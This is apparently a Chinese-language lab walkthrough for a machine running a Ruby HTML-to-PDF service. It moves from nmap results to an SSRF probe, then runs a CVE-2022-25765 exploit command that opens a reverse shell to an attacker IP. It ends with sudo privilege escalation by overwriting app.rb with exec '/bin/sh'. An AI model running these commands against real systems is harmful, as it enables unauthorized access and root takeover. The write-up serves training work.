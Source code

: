 nmap 結果
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
3000/tcp open  http    WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
| _http-title: RubyDome HTML to PDF_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07) |
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

連上去是一個 http 轉 pdf 的網站 嘗試看看 SSRF `http://127.0.0.1`
![image](https://hackmd.io/_uploads/ryJKarKB1g.png)

成功讓他報錯 並知道使用什麼套件 上網找有沒有相關 exploit 找到一個可以 RCE 的 [這個](https://github.com/UNICORDev/exploit-CVE-2022-25765?tab=readme-ov-file)

成功拿到 reverse shell 
```python
python3 exploit-CVE-2022-25765.py -s 192.168.45.187 8888 -w http://192.168.179.22:3000/pdf -p url
```

拿到 local.txt `2927259b804f3ad39caff2f5bcece6e6`
![image](https://hackmd.io/_uploads/BJm1BNqB1g.png)

他可以 sudo -l 發現 `/home/andrew/app/app.rb` 可以在沒密碼的情況下執行
![image](https://hackmd.io/_uploads/HJnrRVqr1e.png)

`.rb` 是 ruby 的檔案 `ls -al` 發現我們也有修改檔案權限 去 GTOFBiN 看 ruby 有沒有提權方法
![image](https://hackmd.io/_uploads/SkWcA4crJg.png)

把原本的 app.rb 用 `exec "/bin/sh"` 蓋掉 並執行他 成功提權拿 flag
```
sudo /usr/bin/ruby /home/andrew/app/app.rb
```
![image](https://hackmd.io/_uploads/HypaCVcBke.png)
